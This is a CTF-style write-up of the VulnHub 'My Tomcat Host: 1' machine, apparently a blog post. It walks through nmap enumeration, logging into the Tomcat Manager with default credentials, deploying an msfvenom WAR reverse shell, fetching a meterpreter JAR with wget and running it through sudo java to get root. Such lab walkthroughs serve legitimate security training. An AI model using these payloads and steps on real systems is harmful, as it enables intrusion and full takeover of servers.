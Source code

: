 ```yaml
---
published: true
layout: post
title: Tomcat Host VulnHub
category: vulnhub
---
```

# My Tomcat Host: 1 

**Url**: [Tomcat Host 1 VulnHub](https://www.vulnhub.com/entry/my-tomcat-host-1,457/) 

**Difficulty**: Easy/Beginner Level 

**Author**: Akanksha Sachin Verma 

### Enumeration

Firstly, a netdiscover scan will reveal how the machine can be identified on the network:

<pre>netdiscover -i eth1</pre>
    
![netdiscover](https://i.imgur.com/IhhB5af.png)

Then an nmap scan:

	nmap -p- -A 192.168.56.110

![nmap](https://imgur.com/fqEpNx9.png)

A closer look at port 8080 on my broswer reveals a Apache Tomcat/9.0.31 

![tomcat](https://imgur.com/e78J3dy.png)

Apache Tomcat is an application server designed to execute Java servlets and render web pages that use Java Server page coding.

The "Manager App" section requires a username and password. The default credentials for Tomcat work (tomcat:tomcat).

	192.168.56.110:8080/manager/html

The Web Application Manager is an opportunity to upload a reverse shell. I'll be using msfvenom to create a reverse shell. This is a good website on how to use msfvenom for reference:

[Offensive Security](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

The payload must be a war file, listening on port 4444 with my local adddress.

	msfvenom -p java/jsp_shell_reverse_tcp lhost=192.168.56.101 lport=4444 -f war > fedai.war

This will be uploaded here:

![upload](https://imgur.com/N4Ns2uf.png)

Before executing the payload, listen on port 4444 with netcat:

	nc -nvlp 4444

Now it must be executed, so we visit the path where it is kept, in my case /fedai. We now have a reverse shell. Uid is 'tomcat'.

	id
	python -c 'import pty;pty.spawn("/bin/bash")'

![deployed](https://imgur.com/2hdSVjH.png)


### User

Always check sudo priviliges to see how we can start escelating priviliges:

	sudo -l
   
![sudo l](https://imgur.com/50SztJT.png)

As demonstrated, the user tomcat can run commands here:	/usr/lib/jvm/java-1.8.0-openjdk-1.8.0.242.b08-0.el7_7.x86_64/jre/bin/java. This is an openjdk java binary file which we can use to exploit priviliges.

We'll be creating another reverse shell payload on meterpreter in a java file format. Listening port will be 5555 with my local IP address again. The file will be downloaded on the victims pc so this file will be created under the apache web directory on my machine.

	msfvenom --platform java -f jar -p java/meterpreter/reverse_tcp lhost=192.168.56.101 lport=5555 > fedai.jar

![www](https://imgur.com/0IDSyUh.png)

Start the apache2 service:

	service apache2 start

Go to the temp directory on the victims machine and transfer the payload over.

	cd /tmp
	wget http://192.168.56.101/fedai.jar

![wget](https://imgur.com/PmLq6W1.png)


### Root

Before executing, we need to set up the meterpreter payload listener on metasploit:

	msfconsole
	use exploit/multi/handler
	set payload java/meterpreter/reverse_tcp
	set lport 5555
	run

![meterpreter](https://imgur.com/UWIDebS.png)

Let's execute this payload with the following command:

	sudo java -jar fedai.jar

![exe](https://imgur.com/6tya58T.png)

We get a successful connection from the tomcat machine as seen on meterpreter, the current user has been identified as root!

![connection](https://imgur.com/4NfW5Ls.png)
